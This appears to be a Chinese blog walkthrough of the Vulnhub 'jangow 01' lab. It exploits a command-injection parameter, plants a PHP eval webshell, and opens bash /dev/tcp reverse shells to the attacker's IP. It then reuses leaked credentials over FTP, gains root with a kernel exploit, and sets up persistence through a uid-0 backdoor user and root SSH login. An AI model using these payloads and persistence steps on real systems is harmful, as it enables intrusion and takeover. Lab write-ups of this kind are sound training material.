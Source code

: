 ```yaml
---
layout: post
title: jangow 01
subtitle: jangow 01
date: 2022-12-15 12:04
author: Kyon-H
header-img: img/post-bg-2015.jpg
tags:
  - Vulnhub
  - 靶场实战
---
```


## jangow 01

靶机 ip：192.168.56.118

kali 攻击机 ip：172.17.46.146

### 1. nmap 扫描 IP

靶机 IP 已知：

```shell
nmap -A 192.168.56.118
```

![image-20221215120422075.png](https://img.ghostliner.top/KlHhcv.png)

### 2. 扫描目录

```shell
dirb http://192.168.56.118
```

```
http://192.168.56.118/server-status
http://192.168.56.118/site/index.html
http://192.168.56.118/site/wordpress/index.html
```

### 3. 访问网站

http://192.168.56.118

点击`site`进入新的页面，查看源码发现：

![image-20221215121549451.png](https://img.ghostliner.top/HuwqNT.png)

```html
<li class="nav-item">
  <a class="nav-link" href="busque.php?buscar=">Buscar</a>
</li>
```

在地址栏输入参数判断此处有命令执行漏洞

![image-20221215121829007.png](https://img.ghostliner.top/OJ5Thb.png)

使用 burp suit 进一步测试

```
cat+busque.php
<?php system($_GET['buscar']); ?>
echo+"bash+-c+'0<%262-%3bexec+22<>/dev/tcp/172.17.46.146/4444%3bsh+<%2622+>%2622+2>%2622'"+>+shell.sh
find+/+-perm+-4000+2>/dev/null
```

经测试，能写入文件，但无法 ping 通 kaliIP，无法反弹 shell。使用一句话木马+antsword

```
buscar=echo '<?php @eval($_POST['para']); ?>' > test.php
```

成功连接，发现/site/wordpress/config.php 内容有用户名和密码。访问后报错

```
$servername = "localhost";
$database = "desafio02";
$username = "desafio02";
$password = "abygurl69";
```

发现/.backup 文件

```
$servername = "localhost";
$database = "jangow01";
$username = "jangow01";
$password = "abygurl69";
```

尝试修改 config.php 中 database 和 username。再次访问仍报错

目标机开启了 21 和 80 端口。尝试用户名密码登录 ftp

```
ftp 192.168.56.118
desafio02 abygurl69
失败
ftp 192.168.56.118
jangow01 abygurl69
成功
```

![image-20221219214101588.png](https://img.ghostliner.top/W3o0Y2.png)

进入后是在/var/www 目录下，没什么收获，继续用 AntSword

发现 /home/jangow01/user.txt

```
d41d8cd98f00b204e9800998ecf8427e
```

MD5 解码

```
查询结果：
[空密码]/[Empty String]
```

```
systemd-private-d6139d42208945be97253054fca34ee2-systemd-timesyncd.service-cCdsLz
```

### 4. 反弹 shell

使用 AntSword 的 shell 有时无回显，尝试反弹 shell

在 site 目录下新建 shell.sh 写入如下内容，在终端执行

```shell
bash -c '0<&2-;exec 22<>/dev/tcp/192.168.56.102/443;sh <&22 >&22 2>&22'
```

==只有 443 端口可以，其他端口无法连接==

kali 成功获取 shell

![image-20221220154726740.png](https://img.ghostliner.top/ReFxXh.png)

升级 tty shell，输入

```shell
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

![image-20221220154914986.png](https://img.ghostliner.top/JWFfqu.png)

成功升级界面，并切换到 jangow01 用户

![image-20221220155027321.png](https://img.ghostliner.top/At7d64.png)

可尝试 suid 提权。

这里选择内核漏洞提权

### 5. 提升权限

```shell
uname -a #查看系统内核
# Linux jangow01 4.4.0-31-generic #50-Ubuntu SMP Wed Jul 13 00:07:12 UTC 2016 x86_64 x86_64 x86_64 GNU/Linux
searchsploit ubuntu 4.4.0-31 #查找相关漏洞
```

![image-20221220155427153.png](https://img.ghostliner.top/gFLQso.png)

使用**linux/local/45010.c** 。将文件复制下来，并编译

```shell
searchsploit -m 45010.c
gcc 44298.c -o 45010
```

![image-20221220155715500.png](https://img.ghostliner.top/mPn78M.png)

可以使用 ftp 或 AntSword 上传到目标机**/home/jangow01/**目录下

```
ftp 192.168.56.118
jangow01
abygurl69
cd /home/jangow01
put 45010
ls
```

![image-20221220160244999.png](https://img.ghostliner.top/8ZDtbp.png)

**chmod +x 45010** 添加权限后执行

成功获取 root 权限。发现 root 目录下 proof.txt 文件，内容：

```
da39a3ee5e6b4b0d3255bfef95601890afd80709
```

MD5 查询结果：
[空密码]/[Empty String]

### 6. 权限维持

添加 root 用户

```shell
# 创建一个用户名guest，密码123456的root用户
useradd -p `openssl passwd -1 -salt 'salt' 123456` guest -o -u 0 -g root -G root -s /bin/bash -d /home/test
```

排查技巧：

```shell
# 查询特权用户特权用户(uid 为0)
awk -F: '$3==0{print $1}' /etc/passwd
# 查询可以远程登录的帐号信息
awk '/\$1|\$6/{print $1}' /etc/shadow
# 除root帐号外，其他帐号是否存在sudo权限。如非管理需要，普通帐号应删除sudo权限more /etc/sudoers | grep -v "^#\|^$" | grep "ALL=(ALL)"
```

查看防火墙状态

```shell
ufw status
cat /etc/ufw/user.rules
```

打开或关闭某个端口

```shell
sudo ufw allow smtp　允许所有的外部IP访问本机的25/tcp (smtp)端口
udo ufw allow 22/tcp 允许所有的外部IP访问本机的22/tcp (ssh)端口
sudo ufw allow 53 允许外部访问53端口(tcp/udp)
sudo ufw allow from 192.168.1.100 允许此IP访问所有的本机端口
sudo ufw allow proto udp 192.168.0.1 port 53 to 192.168.0.2 port 53
sudo ufw deny smtp 禁止外部访问smtp服务
sudo ufw delete allow smtp 删除上面建立的某条规则
```

开启 22 端口

```shell
ufw allow 22/tcp
vi /etc/ssh/sshd_config
# 将#PermitRootLogin without-password改为PermitRootLogin yes
echo 'PermitRootLogin yes' >> /etc/ssh/sshd_config
输入/etc/init.d/ssh restart ，重启下ssh服务
```
